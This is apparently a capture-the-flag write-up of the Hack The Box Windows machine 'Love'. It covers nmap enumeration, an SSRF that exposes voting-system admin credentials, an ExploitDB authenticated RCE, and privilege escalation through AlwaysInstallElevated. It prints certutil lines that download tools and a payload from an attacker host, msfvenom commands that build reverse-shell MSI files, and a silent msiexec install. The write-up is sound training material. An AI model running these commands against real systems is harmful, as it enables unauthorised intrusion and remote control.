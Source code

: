 # About
Love is an easy windows machine where it features a voting system application that suffers from an authenticated remote code execution vulnerability. Our port scan reveals a service running on port 5000 where browsing the page we discover that we are not allowed to access the resource. Furthermore a file scanner application is running on the same server which is though effected by a SSRF vulnerability where it&amp;amp;#039;s exploitation gives access to an internal password manager. We can then gather credentials for the voting system and by executing the remote code execution attack as phoebe user we get the initial foothold on system. Basic windows enumeration reveals that the machine suffers from an elevated misconfiguration. Bypassing the applocker restriction we manage to install a malicious msi file that finally results in a reverse shell as the system account. 

## Skills Required
- Windows Enumeration
- Web Enumeration
## Skills Learned
- Exploit modification
- Server side request forgery
- Applocker policies
- Always install everything misconfiguration

## Enumeration
`nmap -p- -sV -sC 10.129.48.103 --open`
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2025-04-17T16:42:05+00:00; +21m32s from scanner time.
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Add love.htb to hosts file and staging.love.htb

### HTTP
http://love.htb/ gives us login screen
![](Images/Pasted%20image%2020250417122446.png)
Searchsploit shows some random modules for exploit
![](Images/Pasted%20image%2020250417122514.png)
Staging gets us some file scanner resource.
![](Images/Pasted%20image%2020250417122614.png)
love.htb:5000 is not allowed to us.
![](Images/Pasted%20image%2020250417122642.png)

## Exploit
Upon doing some testing of the File Scanning website I was able to use the local IP address of the remote host to access 127.0.0.1:5000 bypassing the authentication requirement.
![](Images/Pasted%20image%2020250417122906.png)
`Vote Admin Creds admin: @LoveIsInTheAir!!!! `
Now that we have credentials we can try the `Online Voting System 1.0 - Remote Code Execution (Authenticated)` found in our searchsploit search. [ExploitDB](https://www.exploit-db.com/exploits/49445)
Edit settings and attempt to run it

![](Images/Pasted%20image%2020250417123709.png)
This wasn't working, I realized the directories was wrong and it beings at /admin begins at the root directory.

![](Images/Pasted%20image%2020250417124556.png)
After adjusting we setup the listener and run it again.
![](Images/Pasted%20image%2020250417124617.png)

Grab the user flag
![](Images/Pasted%20image%2020250417124728.png)

## Priv Esc
`certutil -urlcache -split -f http://10.10.14.251:8080/winPEASany.exe winPEASany.exe`
![](Images/Pasted%20image%2020250417125437.png)We can verify the WinPeas output
![](Images/Pasted%20image%2020250417125606.png)
![](Images/Pasted%20image%2020250417130000.png)
So it appears that the path of escalation is due to the misconfiguration of always install as elevated and the user Phoebe having access to write in the administraton directory.
Lets generate a payload and test it out
`msfvenom -p windows/meterpreter/shell_reverse_tcp lhost=10.10.14.251 lport=8686 -f msi -o shell.msi`
`certutil -urlcache -split -f http://10.10.14.251:8080/shell.msi shell.msi`
`msiexec /quiet /i shell.msi`
Original Meterpreter shell wasn't working so lets try a new one
![](Images/Pasted%20image%2020250417130725.png)

`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.251 lport=8686 -f msi -o shell.msi`
It worked this time around.
![](Images/Pasted%20image%2020250417130814.png)
![](Images/Pasted%20image%2020250417130856.png)